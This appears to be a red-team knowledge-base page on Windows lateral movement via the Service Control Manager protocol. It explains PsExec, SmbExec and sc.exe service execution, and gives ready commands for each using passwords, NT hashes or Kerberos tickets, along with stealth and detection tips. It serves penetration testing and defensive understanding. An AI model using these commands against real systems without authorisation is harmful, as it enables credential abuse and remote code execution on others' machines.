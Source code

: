 ```yaml
---
label: MS-SCMR
subLabel: (PsExec, SmbExec, ScExec)
---
```


# MS-SCMR: Service Control Manager Remote Protocol

> **Typical requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * Read-write SMB share access.
> * Remote SCM via RDP enabled on the target machine (always by default).
> * SMB share enabled on the target machine (always by default).

## Description

Through the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) (RPC) protocol, Windows allows remote communication with another machine's [Service Control Manager](https://learn.microsoft.com/pl-pl/windows/win32/services/service-control-manager) (SCM). This allows, among other things, remote startup of services. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for techniques like PsExec and SmbExec.

PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB share of the target host (445/TCP).

It is worth remembering that remote service creation is a built-in feature of standard `sc.exe`. There is no magic here, it is a standard feature of Windows. Without SMB access, the service will execute, but we cannot provide a malicious binary to the service or receive a response. Most often, however, if remote execution of the service is possible, a read-write SMB share is also available (e.g. default `ADMIN$` or `C$` share).

By default, using service execution techniques a user needs to be a **local administrator** on the target machine to remotely interact with SCM via RPC. Windows services executed by the local administrator by default run in the context of **SYSTEM user**. Logon via MS-SCMR (RPC call) is of the **Network type** (no reusable credentials).

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have read-write access to at least one SMB share. Without remote SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $domain/$user@$host -k -no-pass
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the writable SMB share on the target host. Then, SCM is called remotely (via RPC) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read the output. Two-way communication is established via SMB.

> **Caveats**:
>
> * A generic binary is often detected by AV.
> * PsExec leaves artifacts behind on SMB share that require manual cleaning. The uploaded binary is not automatically removed.

## SmbExec

Linux:

```bash
# Using password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $domain/$user@$host -k -no-pass

# Debug mode (shows every executed `binPath` command)
impacket-smbexec [...] -debug
```

Unlike PsExec, SmbExec doesn't transfer a detectable binary to the target host. Instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via RPC) with each new command. It executes the command in the `binPath` parameter of the service and closes the service. It just executes each desired command as a new service. Output is read via SMB share. There is no leftover on disk.

SmbExec is stealthier alternative to noisy and easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

> **Caveats**
>
> * Each command run by SmbExec is a separate service. Therefore, there is no real session. Loading modules in PowerShell makes no sense. You have to load and call the module in a single command.
> * There's no `cd` command. Again - there's no real session.

## Raw Service Execution (ScExec)

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

Linux (`impacket-services` is basically a Linux port of native `sc.exe`):

```bash
# Using password
impacket-services $domain/$user:$password@$host [action]

# Using NT hash
impacket-services -hashes :$nt_hash $domain/$user@$host [action]

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-services $domain/$user@$host -k -no-pass [action]

# Actions
list -h
create -h
start -h
stop -h
delete -h
```

Windows:

> **IMPORTANT**: Watch out for spaces in arguments. They are necessary!

```powershell
# Create and start service
sc \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc \\$host start $svc_name

# Stop and delete service
sc \\$host stop $svc_name
sc \\$host delete $svc_name
```

{/* TODO: How to provide credentials to `sc.exe`. */}

## References

* [Rift, _SMBExec: Red Side Analysis_](https://rift.stacktitan.com/smbexec/)
* [Boitatech, _SmbExec/ScExec_](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
* [Ryan Hausknecht, _Offensive Lateral Movement_](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f)
